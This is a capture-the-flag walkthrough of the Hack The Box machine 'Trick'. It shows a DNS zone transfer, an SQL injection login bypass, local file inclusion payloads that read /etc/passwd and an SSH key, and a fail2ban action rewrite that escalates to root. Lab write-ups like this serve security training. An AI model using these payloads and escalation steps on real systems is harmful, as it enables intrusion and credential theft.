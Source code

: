Hello and welcome to another write up. This one is on box from Hackthebox - Trick.
Let's get into it and start nmap.

```
└─# cat nmap 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-20 08:02 EDT
Nmap scan report for 10.10.11.166 (10.10.11.166)
Host is up (0.058s latency).
Not shown: 65531 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
As usually starting with the web page and it doesn't return anything which is odd. Probably because
it need hostname. We can get that from the port 53 which is open as we can see from nmap scan results.
For this I will use nslookup but there are other tools that get the job done.
```
# nslookup
server 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.

```
And we have hostname which we now can add to our `/etc/hosts` with the following command 
`# echo "10.10.11.166 trick.htb" >> /etc/hosts`
Let's also check DNS zone transfer if we can get more information. For this I'll use dig:

```
# dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.7-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.

```
We will ad it too. `# echo "10.10.11.166 preprod-payroll.trick.htb" >> /etc/hosts`
Now we can access the pages. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_web1.png?raw=true)

Nothing worthwhile here. Let's now move to 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_web2.png?raw=true)

We can bypass login with the simpliest sql injection `'or 1=1-- -` and we get to recruitment management system as admin.
Right away I notice parameter page and that the page is using lfi. Directly trying to access files like `?page=/etc/passwd` don't work. But with the knowledge that the page uses php we can use php filters like this:
```
php://filter/convert.base64-encode/resource=index.php
```

This doesn't work either. If we take a look at how it loads other pages it doesn't use the `.php` at the end
so it probably appends that. When we remove that it returns base64 string.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_web_lfi.png?raw=true)

There isn't anything interesting on index.php. Let's try to get other pages the same way. When we get the employee
page we see on the top that it includes `db_connect.php`. Time to get that.
We have credentials `remo:TrulyImpossiblePasswordLmao123` we will note that. 
There is nothing more we can do here. Now we go back to the sqlinjection and try to extract some files.
I'll capture the request and save it. Then:
```
# sqlmap -r r.req --level 5 --risk 3 --batch                                                                                                                                                                
```
Technique B tells sqlmap to use boolean based injection. We could also used time based but that takes too long.
Now that sqlmap found the injection point it'll use that right away. Time to get the nginx (we know it's nginx from nmap scan) config file. It is located in `/etc/nginx/sites-enabled/default`. It extracts the file as hex. You can decode it 
for example with cyberchef. The config gave us new subdomain - `preprod-marketing.trick.htb` let's add it to our host file
`# echo "10.10.11.166 preprod-marketing.trick.htb" >> /etc/hosts` 
and visit it.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_web3.png?raw=true)

If we click around we find that it also uses the parameter page. With that we can try again our lfi. And it works!
It is doing some kind of input validation but if we use `....//....//....//etc/passwd` payload it returns `/etc/passwd` file. With that we are no longer constrained to `.php` files. We know that there is user michael. Let's see if he has a 
ssh key. And he does. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_web4.png?raw=true)

We save it, change the permissions and now we can get in. For privilege escalation I start with `sudo -l`:
```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
``` 
We can restart fail2ban. This is useful and can be used for privilege escalation. Now
we need to change the action that happens when someone gets banned. We need to change the iptables rule for that.
Here we can see that action.d is writable by users from security group. Luckily we are in that group.

```
michael@trick:/etc/fail2ban$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Nov  7 22:21 .
drwxr-xr-x 126 root root     12288 Nov  7 10:14 ..
drwxrwx---   2 root security  4096 Nov  7 22:21 action.d
-rw-r--r--   1 root root      2334 Nov  7 22:21 fail2ban.conf
drwxr-xr-x   2 root root      4096 Nov  7 22:21 fail2ban.d
drwxr-xr-x   3 root root      4096 Nov  7 22:21 filter.d
-rw-r--r--   1 root root     22908 Nov  7 22:21 jail.conf
drwxr-xr-x   2 root root      4096 Nov  7 22:21 jail.d
-rw-r--r--   1 root root       645 Nov  7 22:21 paths-arch.conf
-rw-r--r--   1 root root      2827 Nov  7 22:21 paths-common.conf
-rw-r--r--   1 root root       573 Nov  7 22:21 paths-debian.conf
-rw-r--r--   1 root root       738 Nov  7 22:21 paths-opensuse.conf
michael@trick:/etc/fail2ban$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
michael@trick:/etc/fail2ban$ 

```

The file we need to change is `iptables-multiport.conf`. To get permissions to write to it I'll copy it and then
remove it.

```
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf iptables-multiport.conf.bak
michael@trick:/etc/fail2ban/action.d$ rm iptables-multiport.conf
rm: remove write-protected regular file 'iptables-multiport.conf'? yes
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.conf.bak iptables-multiport.conf
```
After that I can rewrite the actionban. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Trick/images/trick_fail2ban.png?raw=true)


Then I'll fail to login to ssh couple of times and when I check `/bin/bash` it now keeps permission if we
use it with the flag -p
```
michael@trick:/etc/fail2ban/action.d$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:/etc/fail2ban/action.d$ bash -p
bash-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) egid=0(root) groups=0(root),1001(michael),1002(security)
```
Now we can get the flag:

```
bash-5.0# cat root.txt 
c7fdea035ec06bef2e8a59af95da00aa
```

This is the end of this box. Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337